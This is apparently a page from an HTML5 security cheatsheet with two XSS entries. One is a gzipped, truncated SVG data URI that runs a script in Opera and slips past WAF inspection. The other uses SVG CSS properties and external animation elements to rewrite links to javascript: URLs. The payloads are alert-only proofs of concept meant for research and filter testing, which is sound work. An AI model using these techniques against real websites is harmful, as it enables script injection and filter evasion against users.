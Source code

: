 reporter：.mario

### SVG payload obfuscation with gzipped HTML and MIME type image/svg-xml[#105](#105)[test](test/#105)

Opera allows displaying compressed SVG images without the usually necessary encoding header. This works for almost arbitrary data as long as the content type image/svg+xml is set - or image/svg-xml like in this example. Notice that the compressed data can be truncated. Opera will still accept it and render the &lt;script&gt; tag and execute the alert(1) - most other Gzip parsers will break though - rendering any WAF or similar tool trying to analyze the payload useless (gzip 1.3.12 states the payload contains 50+ MB of binary gibberish). The example contains no actual SVG code - just a regular &lt;script&gt; tag with a XHTML namespace attribute.


```
<iframe src="data:image/svg-xml,%1F%8B%08%00%00%00%00%00%02%03%B3)N.%CA%2C(Q%A8%C8%CD%C9…D6%CB%2FJ%D77%B4%B4%B4%D4%AF%C8(%C9%CDQ%B2K%CCI-*%D10%D4%B4%D1%87%E8%B2%03"></iframe>
```

*   opera 10.x
*   opera 12.0

*   xss
*   javascript
*   svg
*   svgz
*   gzip
*   xml
*   compression

*   [http://www.w3.org/TR/2002/CR-SVG11-20020430/minimize.html](http://www.w3.org/TR/2002/CR-SVG11-20020430/minimize.html)

reporter：.mario

### Passive SVG JavaScript execution via style injection (1) [#109](#109)[test](test/#109)

SVG supports several new CSS properties (clip-path, fill, filter, marker, marker-end, marker-mid, marker-start, mask, stroke), which can refer to external SVG-resources. These properties can also act as separate attributes. Within the external SVG can contain information to animate the current SVG-document. Example shows an animation links, but the possibilities of animation and other elements. Note that Opera does not show the user the change of links address, if the cursor does not go beyond it.


```
<svg xmlns="http://www.w3.org/2000/svg"> <a id="x"><rect fill="white" width="1000" height="1000"/></a> <rect fill="white" style="clip-path:url(test3.svg#a);fill:url(#b);filter:url(#c);marker:url(#d);mask:url(#e);stroke:url(#f);"/> </svg>``<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink"> <clipPath id="a" > <set xlink:href="#x" attributeName="xlink:href" begin="1s" to="javascript:alert(1)" /> </clipPath> <pattern id="b"> <set xlink:href="#x" attributeName="xlink:href" begin="2s" to="javascript:alert(2)" /> </pattern> <filter id="c"> <set xlink:href="#x" attributeName="xlink:href" begin="3s" to="javascript:alert(3)" /> </filter> <marker id="d"> <set xlink:href="#x" attributeName="xlink:href" begin="4s" to="javascript:alert(1)" /> </marker> <mask id="e"> <set xlink:href="#x" attributeName="xlink:href" begin="5s" to="javascript:alert(2)" /> </mask> <linearGradient id="f"> <set xlink:href="#x" attributeName="xlink:href" begin="6s" to="javascript:alert(3)" /> </linearGradient> </svg>required_mime: image/svg+xmlcrossdomain: 1path: [http://html5sec.org/test3.svg](http://html5sec.org/test3.svg)name: test3.svg
```

